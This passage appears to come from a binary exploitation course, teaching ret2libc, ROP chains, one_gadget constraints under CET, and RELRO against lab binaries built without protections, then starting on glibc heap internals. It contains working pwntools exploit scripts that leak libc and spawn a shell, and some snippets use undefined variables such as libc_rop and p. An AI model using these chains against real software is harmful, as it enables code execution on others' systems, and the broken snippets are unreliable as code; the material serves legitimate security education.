one_gadget = libc.address + 0xef52b  # From: one_gadget /path/to/libc.so.6
pop_rbp = libc_rop.find_gadget(['pop rbp', 'ret'])

payload = flat(
    b'A' * offset,
    p64(ret),                        # Stack alignment
    p64(pop_rbp[0]),
    p64(elf.bss() + 0x280),          # Fix RBP for one_gadget constraints
    p64(one_gadget),                 # Bypasses CET!
)
```

**Debugging Alignment Issues**:

```bash

# If aligned but still crashes - check for CET:
checksec --file=/lib/x86_64-linux-gnu/libc.so.6

### Automated Address Finding (Local Debugging Only)

> [!WARNING]
> `p.libs()` only works for **local debugging**. Never use it in exploits
> targeting remote systems! Always use the leak pattern.

```python
#!/usr/bin/env python3
#~/exploit/10.py
"""
Address finding for LOCAL DEBUGGING ONLY
DO NOT use p.libs() in real exploits - it doesn't work remotely!
"""
from pwn import *

elf = context.binary = ELF('./vuln2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Search for 'libc' in the library paths instead
libs = p.libs()
libc_path = [path for path in libs.keys() if 'libc' in path][0]
libc_base = libs[libc_path]
libc.address = libc_base

log.warning("Using p.libs() - THIS ONLY WORKS LOCALLY!")
log.info(f"Local libc base: {hex(libc.address)}")
log.info(f"Local system(): {hex(libc.symbols['system'])}")

# Find useful addresses for debugging
binsh = next(libc.search(b'/bin/sh\x00'))
log.info(f"/bin/sh string: {hex(binsh)}")

# Run: one_gadget /lib/x86_64-linux-gnu/libc.so.6
one_gadget_offsets = [0xef4ce, 0xef52b, 0x583ec, 0x583f3]  # UPDATE for your libc!
for i, offset in enumerate(one_gadget_offsets):
    log.info(f"one_gadget[{i}]: {hex(libc.address + offset)}")

# Writable address for RBP fix (one_gadget needs rbp-0x50 writable)
writable = elf.bss() + 0x200
log.info(f"Writable .bss for RBP: {hex(writable)}")

# Get libc build ID (for libc database lookups)
file /lib/x86_64-linux-gnu/libc.so.6

# Check for CET (determines if system() ROP will work)
checksec --file=/lib/x86_64-linux-gnu/libc.so.6

### Introduction to ROP

**What is ROP?**:

- Technique to chain existing code "gadgets"
- Gadget = short instruction sequence ending in `ret`
- Chain gadgets to build arbitrary operations
- Bypasses NX/DEP without shellcode

**AMD64 ROP Basics**:

Unlike x86 where you push arguments to the stack, AMD64 passes arguments in **registers**.
This means you need gadgets like `pop rdi; ret` to load arguments!

**Essential AMD64 Gadgets**:

| Gadget         | Purpose                 | Usage                               |
| -------------- | ----------------------- | ----------------------------------- |
| `pop rdi; ret` | Load 1st argument       | **Almost always needed!**           |
| `pop rsi; ret` | Load 2nd argument       | For two-arg functions               |
| `pop rdx; ret` | Load 3rd argument       | Rare in modern libc! Use one_gadget |
| `pop rbp; ret` | Fix RBP for one_gadget  | **Critical for one_gadget!**        |
| `pop rax; ret` | Set RAX (syscall #)     | For one_gadget constraints          |
| `ret`          | Stack alignment / pivot | Fix 16-byte alignment               |

> [!NOTE]
> **Modern libc (glibc 2.34+)** lacks clean `pop rdx; ret` gadgets and has CET enabled.
> Traditional `system("/bin/sh")` ROP often fails. Use **one_gadget** instead!

**Simple AMD64 ROP Example (Traditional - may fail on modern libc)**:

```text
Goal: Call system("/bin/sh") - works on older libc without CET

AMD64 calling convention:
- RDI = first argument = address of "/bin/sh"
- Then call system()

Stack layout (after overflow):
┌─────────────────┐
│ ret gadget      │ → align stack (optional)
├─────────────────┤
│ pop rdi; ret    │ → gadget address
├─────────────────┤
│ &"/bin/sh"      │ → value popped into RDI
├─────────────────┤
│ &system         │ → called with RDI = "/bin/sh"
└─────────────────┘
```

**Modern AMD64 ROP Example (one_gadget - works on glibc 2.34+)**:

```text
Goal: Call one_gadget (execve("/bin/sh", ...)) - works on modern libc with CET

Requirements:
- RBP = writable address (one_gadget needs rbp-0x50 writable)
- RAX = 0 (some one_gadgets require this)

Stack layout (after overflow):
┌─────────────────┐
│ ret gadget      │ → align stack
├─────────────────┤
│ pop rbp; ret    │ → from libc
├─────────────────┤
│ .bss + 0x280    │ → writable address for RBP
├─────────────────┤
│ pop rax; ret    │ → from libc (optional, for constraints)
├─────────────────┤
│ 0x0             │ → RAX = NULL
├─────────────────┤
│ one_gadget      │ → libc.address + offset → shell!
└─────────────────┘
```

### Finding ROP Gadgets

Master manual gadget hunting before relying on tools—it builds intuition for what's possible.

# AMD64: Search for syscall instruction
objdump -d vuln2 | grep "syscall"
```

**Common AMD64 Gadget Byte Patterns**:

| Gadget Type             | Byte Sequence | Instruction                  |
| ----------------------- | ------------- | ---------------------------- |
| `pop rdi; ret`          | `5f c3`       | Load RDI (arg 1)             |
| `pop rsi; ret`          | `5e c3`       | Load RSI (arg 2)             |
| `pop rdx; ret`          | `5a c3`       | Load RDX (arg 3) - **rare!** |
| `pop rcx; ret`          | `59 c3`       | Load RCX (arg 4)             |
| `pop rax; ret`          | `58 c3`       | Load RAX (for one_gadget)    |
| `pop rbp; ret`          | `5d c3`       | **Fix RBP for one_gadget!**  |
| `ret`                   | `c3`          | Stack alignment              |
| `syscall`               | `0f 05`       | Syscall (AMD64)              |
| `pop rsi; pop r15; ret` | `5e 41 5f c3` | Common in \_\_libc_csu_init  |

> [!WARNING]
> **`pop rdx; ret` is rare in modern libc!** You'll often find `pop rdx; pop rbx; ret`
> or similar multi-pop variants. This breaks simple `execve(path, NULL, NULL)` chains.
> Use **one_gadget** instead of manually building execve calls.

**Using GDB/pwndbg for Gadget Search**:

```bash

# In pwndbg:
pwndbg> rop --grep "pop rdi"     # Find pop rdi gadgets
pwndbg> rop --grep "pop rsi"     # Find pop rsi gadgets
pwndbg> rop --grep "syscall"     # Find syscall gadgets

# Find specific gadgets (AMD64)
ROPgadget --binary vuln2 --only "pop|ret"
ROPgadget --binary vuln2 | grep "pop rdi"
ROPgadget --binary vuln2 | grep "pop rsi"

# Include libc gadgets (many more available!)
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi" | head

# CRITICAL for one_gadget: find pop rbp and pop rax in libc
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep ": pop rbp ; ret"
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep ": pop rax ; ret"

# Check if pop rdx exists (often missing or has extra pops!)
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep ": pop rdx ;" | head

# ropper (alternative tool with better search)
ropper -f vuln2 --search "pop rdi"
ropper -f vuln2 --chain execve  # May fail on modern libc!

# one_gadget (find "magic" shell gadgets in libc)
one_gadget /lib/x86_64-linux-gnu/libc.so.6

# ALWAYS check constraints and fix RBP before calling!
```

**Gadget Priority for Modern Libc Exploitation**:

1. `pop rdi; ret` - for leak stage (from binary, not libc)
2. `ret` - for stack alignment (from binary)
3. `pop rbp; ret` - **CRITICAL** for one_gadget RBP fix (from libc)
4. `pop rax; ret` - for one_gadget RAX=0 constraint (from libc)
5. `pop rbx; ret` / `pop r12; ret` - for other one_gadget constraints (from libc)

### One_Gadget Constraints

> [!CAUTION]
> **Modern glibc one_gadgets have strict constraints!** Buffer overflows corrupt
> RBP with your padding bytes (`0x4141414141414141`), but one_gadgets often require
> `rbp-0xXX` to be a writable address. This causes SIGBUS/SIGSEGV crashes.

**Common one_gadget constraints**:

```text

# Example output from: one_gadget /lib/x86_64-linux-gnu/libc.so.6
0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x50 is writable
  rbx == NULL || {"/bin/sh", rbx, NULL} is a valid argv

0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable      ← RBP must be valid!
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
```

**The Problem**: After buffer overflow, RBP = `0x4141414141414141` (A's).
So `rbp-0x50` = invalid address → **SIGBUS** when one_gadget tries to access it!

**The Solution**: Set RBP to a writable address before calling one_gadget:

```python

# Find gadgets from libc
libc_rop = ROP(libc)
pop_rbp = libc_rop.find_gadget(['pop rbp', 'ret'])
pop_rax = libc_rop.find_gadget(['pop rax', 'ret'])

# Use .bss section (always writable) for RBP
writable_addr = elf.bss() + 0x200

stage2 = b'A' * OFFSET
stage2 += p64(ret)                       # Stack alignment

# Fix RBP FIRST (before one_gadget)
stage2 += p64(pop_rbp[0])
stage2 += p64(writable_addr + 0x80)      # RBP = valid writable address

# Then satisfy other constraints (rax=0 for many one_gadgets)
if pop_rax:
    stage2 += p64(pop_rax[0])
    stage2 += p64(0)                     # RAX = NULL

stage2 += p64(one_gadget)                # Now one_gadget works!
```

**One_Gadget Troubleshooting**:

| Symptom                        | Cause                        | Fix                                         |
| ------------------------------ | ---------------------------- | ------------------------------------------- |
| SIGBUS at one_gadget           | RBP points to invalid memory | Set RBP to .bss or stack before calling     |
| SIGSEGV in one_gadget          | Register constraints not met | Try different one_gadget, set rax/rbx/r12=0 |
| one_gadget exists but no shell | Wrong libc version           | Verify libc, recalculate offsets            |
| All one_gadgets fail           | Constraints too strict       | Fall back to ROP execve syscall             |

**Why system() Fails on Modern Libc**:

Modern glibc (2.34+) enables **Intel CET** (Control-flow Enforcement Technology):

- **SHSTK** (Shadow Stack): Hardware-backed return address protection
- **IBT** (Indirect Branch Tracking): Validates indirect jumps

`checksec` shows: `SHSTK: Enabled, IBT: Enabled`

This makes traditional `system("/bin/sh")` ROP chains crash. Solutions:

1. **Use one_gadget** with proper constraints (shown above)
2. **Syscall directly** via `execve` syscall (bypasses libc CET checks)
3. **Disable CET** when compiling test binaries: `gcc -fcf-protection=none`

**Gadget Quality Checklist**:

- [ ] Does the gadget contain bad characters (NULL, newline)?
- [ ] Does it have unwanted side effects (clobber registers you need)?
- [ ] Is the address in a predictable location (not ASLR'd)?
- [ ] Can you chain to the next gadget (ends in `ret`)?

### Using pwntools ROP Correctly

> [!IMPORTANT]
> **ROP Chain Timing**: You must set `libc.address` BEFORE building the ROP chain!
> Don't create `ROP([elf, libc])` until you've computed the libc base from a leak.

**Correct ROP Workflow (Modern Libc with one_gadget)**:

```python
#!/usr/bin/env python3
#~/exploit/11.py
"""
Correct ROP chain sequencing for modern libc (glibc 2.34+)

Key insights:
1. Leak → set libc.address → THEN build stage 2
2. Use one_gadget instead of system() (CET bypass)
3. Fix RBP before calling one_gadget (buffer overflow corrupts it)
"""
from pwn import *

elf = ELF('./vuln2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.binary = elf

# Run: one_gadget /lib/x86_64-linux-gnu/libc.so.6
ONE_GADGETS = [0xef4ce, 0xef52b, 0x583ec, 0x583f3]
OFFSET = 72  # buffer (64) + saved RBP (8)

# Build leak ROP using ONLY elf gadgets (libc base unknown!)
rop1 = ROP(elf)  # Only elf, not libc!

pop_rdi = rop1.find_gadget(['pop rdi', 'ret'])[0]
ret = rop1.find_gadget(['ret'])[0]

# Leak puts@got
stage1 = flat(
    b'A' * OFFSET,
    p64(ret),
    p64(pop_rdi),
    p64(elf.got['puts']),
    p64(elf.plt['puts']),
    p64(elf.symbols['main']),
)

p = process('./vuln2', aslr=False, env={})
p.recvuntil(b'Enter input: ')
p.sendline(stage1)

# Parse leak (adjust for your binary's output format)
p.recvuntil(b'You entered: ')
p.recvuntil(b'\n')
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))

# ======= SET LIBC BASE (Critical!) =======
libc.address = leaked_puts - libc.symbols['puts']
log.success(f"libc base: {hex(libc.address)}")

# Verify alignment (should end in 000)
if libc.address & 0xfff != 0:
    log.warning("Libc base not page-aligned - leak may be wrong!")

# Find gadgets to satisfy one_gadget constraints
pop_rbp = libc_rop.find_gadget(['pop rbp', 'ret'])
pop_rax = libc_rop.find_gadget(['pop rax', 'ret'])

# Writable address for RBP (one_gadget needs rbp-0x50 writable)
writable = elf.bss() + 0x200

# Try second one_gadget (0xef52b) - needs rax=NULL, rbp valid
one_gadget = libc.address + ONE_GADGETS[1]

p.recvuntil(b'Enter input: ')

stage2 = b'A' * OFFSET
stage2 += p64(ret)                    # Stack alignment

# Fix RBP FIRST (critical for one_gadget!)
if pop_rbp:
    stage2 += p64(pop_rbp[0])
    stage2 += p64(writable + 0x80)    # rbp = valid writable addr

# Set rax = 0 (for one_gadget constraint)
if pop_rax:
    stage2 += p64(pop_rax[0])
    stage2 += p64(0)                  # rax = NULL

stage2 += p64(one_gadget)             # Shell!

p.sendline(stage2)
log.success("Shell incoming!")
p.interactive()
```

**Traditional Workflow (Older libc without CET)**:

```python

# After setting libc.address...
rop2 = ROP([elf, libc])
rop2.call('system', [next(libc.search(b'/bin/sh\x00'))])

stage2 = flat(
    b'A' * OFFSET,
    p64(ret),          # Stack alignment
    rop2.chain(),
)
```

**Common Mistakes**:

```python

# WRONG: Building ROP with libc before setting libc.address
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP([elf, libc])  # libc.address is 0 here!
rop.call('system', [...])  # Addresses will be wrong!

# WRONG: Using rop.call() for functions not in PLT
rop = ROP(elf)
rop.call('system', [...])  # ERROR: system not in elf.plt!

# WRONG: Expecting rop.call('execve', ...) to work on modern libc
libc_rop = ROP(libc)
libc_rop.call('execve', [binsh, 0, 0])  # May fail: "Could not satisfy setRegisters"

# WRONG: Calling one_gadget without fixing RBP first
stage2 = b'A' * OFFSET + p64(one_gadget)  # SIGBUS! RBP = 0x4141414141414141

# WRONG: Using system() on modern libc with CET
stage2 = b'A' * OFFSET + p64(pop_rdi) + p64(binsh) + p64(system)

# RIGHT: Manual gadget chain for stage 1 (before libc base known)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
payload = p64(pop_rdi) + p64(arg) + p64(elf.plt['puts'])

# RIGHT: Use one_gadget for stage 2 on modern libc (with RBP fix!)
pop_rbp = libc_rop.find_gadget(['pop rbp', 'ret'])
pop_rax = libc_rop.find_gadget(['pop rax', 'ret'])
stage2 = b'A' * OFFSET
stage2 += p64(ret)                          # Alignment
stage2 += p64(pop_rbp[0])
stage2 += p64(elf.bss() + 0x280)            # Fix RBP first!
stage2 += p64(pop_rax[0])
stage2 += p64(0)                            # RAX = NULL for constraint
stage2 += p64(one_gadget)                   # Now it works!
```

**Quick Checklist for Modern Libc ROP**:

- [ ] Stage 1 uses only binary gadgets (not libc)
- [ ] Leak parsed correctly (check for extra newlines/bytes)
- [ ] `libc.address` set before building stage 2
- [ ] Libc base is page-aligned (ends in `000`)
- [ ] `ret` gadget for 16-byte stack alignment
- [ ] RBP set to writable address (`.bss + offset`)
- [ ] RAX/RBX/R12 set to 0 if one_gadget requires it
- [ ] Correct one_gadget offset for your libc version

### Debugging ROP Chains

ROP exploits often fail silently. Here's how to systematically debug them.

**Step 1: Print the Chain** (Verify BEFORE Sending)

```python
#~/exploit/12.py
from pwn import *

elf = ELF('./vuln2')
context.binary = elf
rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Print planned chain
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"ret @ {hex(ret)}")

# Build and dump
chain = flat(
    p64(ret),
    p64(pop_rdi),
    p64(0x404040),  # Example address
    p64(0x401234),  # Example call target
)
print(f"Chain length: {len(chain)} bytes")
print(f"Chain hex: {chain.hex()}")
```

**Step 2: Visualize Stack Layout (AMD64)**

```python

# Before sending, visualize what the stack will look like
#~/exploit/13.py
from pwn import *

offset = 72  # AMD64: typically 64 buffer + 8 saved RBP
payload = b"A" * offset

# Add ROP chain manually for visibility (AMD64)
payload += p64(0x40101a)  # ret          (alignment)
payload += p64(0x401234)  # pop rdi; ret (gadget 1)
payload += p64(0x404040)  # /bin/sh      (value for rdi)
payload += p64(0x401456)  # system       (call target)

# Print hex for verification
print("Payload hex:")
print(payload.hex())
print(f"\nPayload length: {len(payload)} bytes")
print(f"Expected: {offset} + {len(payload)-offset} = {len(payload)}")
```

**Step 3: Debug in GDB (AMD64)**

```bash

# Find the ret instruction address
(gdb) break *vulnerable+<offset_to_ret>
(gdb) run $(python3 -c "...")

# At the breakpoint (right before ret executes):
(gdb) x/20gx $rsp   # View stack (g = 8-byte, AMD64) - your ROP chain!
(gdb) stepi         # Single step through each gadget
```

```python

# Method 2: Use pwntools with manual GDB attach
from pwn import *

context.binary = ELF('./vuln2')

# Print PID and pause for GDB attach
log.info(f"Process PID: {p.pid}")
log.info(f"Attach GDB: gdb -p {p.pid}")
input("Press Enter after attaching GDB and setting breakpoints...")

payload = b"A" * 72 + p64(0x40101a) + p64(0x401234) + p64(0x404040) + p64(0x401456)
p.sendline(payload)
p.interactive()
```

In a second terminal, attach GDB:

```bash
gdb -p <PID>
(gdb) break *vulnerable+0x42  # Break at ret instruction
(gdb) continue

# Then in GDB:
(gdb) x/20gx $rsp   # View ROP chain on stack
(gdb) si            # Step through each gadget
```

**Step 4: Trace Each Gadget (AMD64)**

```bash

# In pwndbg, trace execution through your chain
pwndbg> break *0x401234      # First gadget (pop rdi; ret)
pwndbg> continue

# Now at first gadget

pwndbg> x/gx $rsp            # Value that will be popped (8 bytes)
pwndbg> si                   # Execute pop rdi
pwndbg> info registers rdi   # Verify rdi now has expected value
pwndbg> si                   # Execute ret (should go to next gadget)
pwndbg> x/i $rip             # Verify we're at expected gadget
```

**Common ROP Debugging Issues (AMD64)**:

| Symptom                       | Cause                      | Fix                                       |
| ----------------------------- | -------------------------- | ----------------------------------------- |
| Crash before first gadget     | Wrong offset               | Re-verify with cyclic pattern (8-byte!)   |
| First gadget runs, then crash | Bad second address         | Check stack alignment, verify addr        |
| "Illegal instruction"         | Jumped to data, not code   | Verify gadget address is correct          |
| Crash in `system()` (movaps)  | **AMD64 stack alignment!** | Add `ret` gadget before call              |
| `system()` crashes (CET)      | Modern libc has SHSTK/IBT  | Use one_gadget instead of system()        |
| SIGBUS in one_gadget          | RBP corrupted by overflow  | Set RBP to .bss before one_gadget         |
| `system()` runs but no shell  | `/bin/sh` addr wrong       | Re-find string after setting libc.address |
| Works locally, fails remote   | Different libc version     | Use libc database, leak to confirm        |

**Stack Alignment Fix (AMD64)**:

```python
#~/exploit/14.py

# Solution: Add ret gadget for 16-byte alignment

from pwn import *

elf = ELF('./vuln2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.binary = elf
rop = ROP(elf)

# Read the Output You will see a list of memory ranges. Look for the first entry associated with libc.so.6.
#0x00007ffff7dc2000 0x00007ffff7f83000 r-xp /lib/x86_64-linux-gnu/libc.so.6
libc.address = 0x7ffff7c00000  # Example base - find yours with GDB or p.libs()
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh\x00'))

# Find a simple 'ret' gadget for alignment
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Add alignment before the call
payload = flat(
    b'A' * 72,
    p64(ret),              # ← Stack alignment fix!
    p64(pop_rdi),
    p64(binsh_addr),
    p64(system_addr),
)
```

### RELRO (Relocation Read-Only) Explained

RELRO affects GOT overwrite attacks:

| RELRO Level   | GOT Writable? | PLT Behavior      | Exploitation Impact |
| ------------- | ------------- | ----------------- | ------------------- |
| No RELRO      | Yes (always)  | Lazy binding      | GOT overwrite works |
| Partial RELRO | Yes (GOT)     | Lazy binding      | GOT overwrite works |
| Full RELRO    | No            | Immediate binding | GOT is read-only!   |

**Checking RELRO**:

```bash

# Using readelf
readelf -l ./vuln2 | grep GNU_RELRO
readelf -d ./vuln2 | grep BIND_NOW

# Partial RELRO (default) - GOT overwrite WORKS
make disabled SOURCE=vuln2.c BINARY=vuln_partial_relro
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln2.c -o vuln_partial_relro

# No RELRO - GOT overwrite WORKS
make training-relro-off SOURCE=vuln2.c BINARY=vuln_no_relro
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wl,-z,norelro vuln2.c -o vuln_no_relro

# Full RELRO - GOT overwrite FAILS!
make training-full-relro SOURCE=vuln2.c BINARY=vuln_full_relro
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none -Wl,-z,relro,-z,now vuln2.c -o vuln_full_relro
```

**Full RELRO Bypass Options**:

- Overwrite `__malloc_hook` or `__free_hook` (removed in glibc 2.34+)
- Overwrite return addresses (stack)
- Overwrite function pointers in .data/.bss
- Use FSOP (File Stream Oriented Programming)

#### Exercise: Libc Leak + ret2libc

1. **Compile target with NX (AMD64)**:

   ```bash
   make disabled SOURCE=vuln2.c BINARY=vuln2
   #gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln2.c -o vuln2
   ```

2. **Find gadgets**:

   ```bash
   ROPgadget --binary ./vuln2 | grep "pop rdi"
   ROPgadget --binary ./vuln2 | grep ": ret$"
   ```

3. **Write leak exploit**:
   - Stage 1: ROP to `puts(puts@got)`, return to `main`
   - Parse leaked puts address
   - Compute `libc.address = leak - libc.symbols['puts']`

4. **Write final exploit**:
   - Stage 2: `pop rdi; ret` + `/bin/sh` + `system`
   - Get shell

**Task 2**: Stack Alignment Practice

1. **Create exploit WITHOUT ret alignment gadget**
2. **Observe crash in libc** (movaps instruction)
3. **Add ret gadget** and verify fix

**Task 3**: Gadget Hunting

1. **Find gadgets manually**:

   ```bash
   objdump -d vuln2 | grep -B2 "ret"
   ```

2. **Find in libc**:

   ```bash
   ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi" | head
   ```

**Success Criteria**:

- Libc leak working and parsed correctly
- Libc base calculated correctly (ends in 000)
- Stack alignment understood and applied
- Shell obtained via ret2libc
- Can explain each step of the exploit

3. **Write exploit**:
   - Build ret2libc payload
   - Call system("/bin/sh")
   - Get shell

#### Exercise: Function chaining

1. **Chain system() and exit()**:
   - Call `system("whoami")`
   - Then call `exit(0)`
   - Observe clean exit

2. **Read flag file**:
   - Create `flag.txt` with secret
   - Chain to call `system("cat flag.txt")`
   - Display contents

#### Exercise: Simple ROP (AMD64 syscall)

1. **Find gadgets**:

   ```bash
   ROPgadget --binary vuln1_nx --only "pop|ret|syscall" > gadgets.txt
   ```

2. **Build ROP chain manually**:
   - Set RAX to 59 (execve on AMD64)
   - Set RDI to address of "/bin/sh"
   - Set RSI and RDX to 0
   - Execute `syscall` instruction

3. **Test ROP exploit**:
   - Should get shell without any shellcode

**Success Criteria**:

- ret2libc exploit works
- Function chaining successful
- ROP chain executes
- Shell obtained in all three tasks

#### Week 3 Integration Exercise: Patch Diff -> Find Bug -> Exploit Old Build

Reuse the Week 3 patch-diffing workflow on a controlled Day 2-style target.

**Goal**: build a vulnerable and a patched version of the same program, diff them, then exploit only the vulnerable build.

1. Make two versions of the source:
   - `vuln2_vuln.c`: contains the bug (e.g., unbounded read / missing length check)
   - `vuln2_patched.c`: fix the bug (e.g., bounded read or explicit length validation)

2. Compile both with identical flags:

   ```bash
   gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln2_vuln.c -o vuln2_vuln
   gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln2_patched.c -o vuln2_patched
   ```

3. Patch diff:

   ```bash
   ghidriff ./vuln2_vuln ./vuln2_patched -o vuln2_diff
   ```

4. Validation:
   - Your Day 2 exploit should work on `vuln2_vuln`.
   - It should fail (or at least not gain control) on `vuln2_patched`.

**Success Criteria**:

- You can point to the exact function/basic-block changed by the patch
- You can explain why the patch removes the exploit primitive

### Key Takeaways

1. **NX prevents shellcode execution**: Need alternative techniques
2. **ret2libc reuses existing code**: Call libc functions
3. **ROP chains gadgets**: Build complex operations
4. **Stack layout is critical**: Function arguments must be correct
5. **pwntools simplifies ROP**: Automates gadget finding and chaining
6. **Modern libc has CET**: `system()` ROP may fail, use one_gadget instead
7. **one_gadget needs RBP fix**: Buffer overflows corrupt RBP, set it to .bss first
8. **`pop rdx` is rare**: Modern libc lacks clean gadgets, use one_gadget

### Discussion Questions

1. Why is ret2libc effective even with NX enabled?
2. What are the limitations of ret2libc vs ROP?
3. How would ASLR complicate ret2libc exploitation?
4. What types of gadgets are most useful for ROP chains?

## Day 3: Heap Exploitation Fundamentals

- **Goal**: Understand heap memory management and exploit heap overflows.
- **Activities**:
  - _Reading_:
    - [MALLOC DES-MALEFICARUM](https://phrack.org/issues/66/10)
    - [Understanding the Heap](https://azeria-labs.com/heap-exploitation-part-1/)
  - _Online Resources_:
    - [Heap Exploitation Resources](https://github.com/shellphish/how2heap)
    - [Glibc Malloc Internals](https://sourceware.org/glibc/wiki/MallocInternals)
  - _Tool Setup_:
    - how2heap repository
    - Heap visualization tools
  - _Exercise_:
    - Exploit heap overflow to corrupt metadata
    - Achieve arbitrary write primitive

### Context: libWebP Heap Overflow (CVE-2023-4863)

- In Week 1, we discussed the **libWebP Heap Buffer Overflow** that affected billions of devices.
- That vulnerability involved writing past the end of a heap buffer, corrupting adjacent metadata.
- Today, we'll learn how to intentionally trigger and exploit such conditions to gain code execution.

### Deliverables

- **Binary**: `vuln_heap` built and verified with `checksec`
- **Primitive proof**: function pointer overwrite demonstrated (redirect to `admin_function`)
- **Exploit**: `exploit_heap_fp.py` (or equivalent) spawns a shell reliably
- **Notes**: heap layout diagram + exact overwrite length and why `read()` enables null bytes in payloads

### Heap vs Stack

**Differences**:

| Feature             | Stack                       | Heap                        |
| ------------------- | --------------------------- | --------------------------- |
| **Allocation**      | Automatic (local variables) | Manual (malloc/new)         |
| **Lifetime**        | Function scope              | Explicit free               |
| **Size**            | Fixed per thread (~8MB)     | Dynamic, grows as needed    |
| **Speed**           | Very fast                   | Slower (allocator overhead) |
| **Layout**          | LIFO (Last In First Out)    | Complex (bins, chunks)      |
| **Overflow Impact** | Overwrites return address   | Overwrites metadata         |

### Heap Allocator Basics (glibc malloc)

This section provides a detailed walkthrough of how glibc's malloc works. Understanding these internals is **essential** for heap exploitation—don't skip it.

> [!WARNING]
> **Which glibc version?**
> Run `ldd --version`. This course uses glibc 2.31-2.35 examples.
> Many classic techniques (unlink, fastbin dup) are mitigated in 2.35+.
> Check [how2heap](https://github.com/shellphish/how2heap) for version-specific techniques.

#### Chunk Structure Deep Dive

**Chunk Structure**:

```c
struct malloc_chunk {
    size_t prev_size;  /* Size of previous chunk (if free) */
    size_t size;       /* Size of this chunk (includes metadata) */

    /* Only for free chunks: */
    struct malloc_chunk *fd;  /* Forward pointer */
    struct malloc_chunk *bk;  /* Backward pointer */

    /* For large free chunks only (>512 bytes): */
    struct malloc_chunk *fd_nextsize;
    struct malloc_chunk *bk_nextsize;

    /* User data starts here */
};
```

**Size Field Flags** (critical for exploitation):

```c
/* Low 3 bits of size field contain flags */
#define PREV_INUSE     0x1   /* Previous chunk is allocated */
#define IS_MMAPPED     0x2   /* Chunk was mmap'd (not from heap) */
#define NON_MAIN_ARENA 0x4   /* Chunk belongs to non-main arena */

/* Real size = size & ~0x7 */
```

**Visual Representation**:

```text
                    Allocated chunk:
                    ┌────────────────┐ ← chunk address
                    │   prev_size    │ (only valid if PREV_INUSE=0)
                    ├────────────────┤
                    │   size | PMA   │ (size + 3 flag bits)
   malloc() returns ├────────────────┤ ← user pointer (chunk + 0x10)
              here →│                │
                    │   User Data    │
                    │                │
                    └────────────────┘

                    Free chunk (in bins):
                    ┌────────────────┐
                    │   prev_size    │ (size of prev chunk for coalescing)
                    ├────────────────┤
                    │   size | P A   │ (PREV_INUSE usually 0 after free)
                    ├────────────────┤
                    │   fd (forward) │ ← Points to next chunk in bin
                    ├────────────────┤
                    │   bk (backward)│ ← Points to prev chunk in bin
                    ├────────────────┤
                    │ (old user data)│ ← May still contain sensitive data!
                    └────────────────┘
```

#### Understanding malloc() Step by Step

```text
What happens when you call malloc(24)?

┌─────────────────────────────────────────────────────────────────┐
│ Step 1: Size Calculation                                        │
│ ─────────────────────────────────────────────────────────────── │
│ Request: 24 bytes                                               │
│ + 16 bytes metadata (prev_size + size on 64-bit)                │
│ + Alignment to 16 bytes                                         │
│ = Actual chunk size: 48 bytes (0x30)                            │
│                                                                 │
│ Minimum chunk = 32 bytes (0x20) on 64-bit                       │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 2: Check Tcache (glibc 2.26+)                              │
│ ─────────────────────────────────────────────────────────────── │
│ tcache_bins[size_idx] → Is there a cached chunk?                │
│                                                                 │
│ If YES: Pop from tcache (LIFO), return immediately              │
│ If NO:  Continue to fastbins                                    │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 3: Check Fastbins (if size ≤ 0x80 / ~160 bytes)            │
│ ─────────────────────────────────────────────────────────────── │
│ fastbins[size_idx] → Is there a free chunk?                     │
│                                                                 │
│ If YES: Pop from fastbin (LIFO), return                         │
│ If NO:  Check small/unsorted/large bins                         │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 4: Check Bins (Unsorted → Small → Large)                   │
│ ─────────────────────────────────────────────────────────────── │
│ Search for best-fit chunk in bins                               │
│ May split larger chunks if needed                               │
│                                                                 │
│ If found: Return chunk                                          │
│ If not:   Extend heap with sbrk()/mmap()                        │
└─────────────────────────────────────────────────────────────────┘
```

#### Understanding free() Step by Step

```text
What happens when you call free(ptr)?

┌─────────────────────────────────────────────────────────────────┐
│ Step 1: Validate Pointer                                        │
│ ─────────────────────────────────────────────────────────────── │
│ - Is ptr aligned?                                               │
│ - Is size reasonable?                                           │
│ - Check for double-free (tcache key in 2.29+)                   │
│                                                                 │
│ If validation fails: abort() or SIGABRT                         │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 2: Try Tcache First (glibc 2.26+)                          │
│ ─────────────────────────────────────────────────────────────── │
│ tcache_bins[size_idx] count < 7?                                │
│                                                                 │
│ If YES: Push to tcache (LIFO), done                             │
